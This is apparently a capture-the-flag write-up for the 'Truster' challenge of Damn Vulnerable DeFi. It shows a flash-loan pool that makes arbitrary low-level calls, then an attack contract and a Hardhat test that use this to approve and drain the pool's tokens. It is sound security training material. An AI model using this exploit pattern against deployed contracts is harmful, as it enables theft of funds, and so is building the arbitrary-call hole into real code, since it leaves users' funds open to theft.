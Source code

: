 ```yaml
---
description: You shouldn't let user to make arbitrary low-level call.
---
```


# 3 - Truster

<pre class="language-solidity"><code class="lang-solidity">contract TrusterLenderPool is ReentrancyGuard {
    using Address for address;

    IERC20 public immutable damnValuableToken;

    constructor(address tokenAddress) {
        damnValuableToken = IERC20(tokenAddress);
    }

    function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    ) external nonReentrant {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        damnValuableToken.transfer(borrower, borrowAmount);
        <a data-footnote-ref href="#user-content-fn-1">target.functionCall(data);</a>

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
}
</code></pre>

### Solution

```solidity
contract AttackTruster {
    address pool;
    address dvt;

    constructor(address _pool, address _dvt) {
        pool = _pool;
        dvt = _dvt;
    }

    function attack() external {
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", msg.sender, 1000000 ether);
        TrusterLenderPool(pool).flashLoan(0, msg.sender, dvt, data);
    }
}
```

Here, we will pass in `data` and make `flashLoan` approve the attacker `1000000` DVT.



```javascript
  it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const AttackTruster = await ethers.getContractFactory('AttackTruster');
    const attackTruster = await AttackTruster.deploy(this.pool.address, this.token.address);
    await attackTruster.deployed();

    let tx = await attackTruster.connect(attacker).attack();
    await tx.wait();
    
    tx = await this.token.connect(attacker).transferFrom(this.pool.address, attacker.address, TOKENS_IN_POOL);
    await tx.wait();
  });
```

[^1]: we make `approve` tx using low-level call
